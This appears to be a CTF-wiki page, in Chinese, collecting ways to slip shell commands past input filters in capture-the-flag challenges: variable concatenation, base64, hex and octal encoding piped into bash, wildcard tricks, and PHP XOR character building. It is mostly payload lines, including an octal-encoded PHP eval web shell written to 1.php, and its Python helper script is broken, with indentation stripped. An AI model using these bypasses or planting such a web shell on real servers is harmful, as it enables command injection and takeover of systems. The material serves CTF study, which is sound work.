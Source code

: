 # linux绕过姿势
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



拼接绕过


```plain
#执行ls命令：
a=l;b=s;$a$b
#cat flag文件内容：
a=c;b=at;c=f;d=lag;$a$b${c}${d}
#cat test文件内容
a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$btest
Plain Text
```



编码绕过








```plain
#base64
echo "Y2F0IC9mbGFn"|base64 -d|bash ==>cat /flag
echo Y2F0IC9mbGFn|base64 -d|sh==>cat /flag
#hex
echo "0x636174202f666c6167" | xxd -r -p|bash ==>cat /flag
#oct/字节
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
也可以通过这种方式写马
内容为php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php。

Plain Text
```



正则匹配


```plain
cat t?st
cat te*
cat t[a-z]st
cat t{a,b,c,d,e,f}st
Plain Text
```



异或绕过（linux可以这么用，但这里应该不是linux）


```plain
var_dump('#'^'|'); //得到字符 _
var_dump('.'^'~'); //得到字符 P
var_dump('/'^'`'); //得到字符 0
var_dump('|'^'/'); //得到字符 S
var_dump('{'^'/'); //得到字符 T
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/"); //变量$__值为字符串'_POST'
Plain Text
```



```plain
#给出脚本if __name__ == "__main__":
for i in range(0,127):
for j in range(0,127):
result=i^j
if(chr(result) is '想要的字符'):
print(' '+chr(i)+' xor '+chr(j)+' == '+chr(result))缩进自己来
Plain Text
```





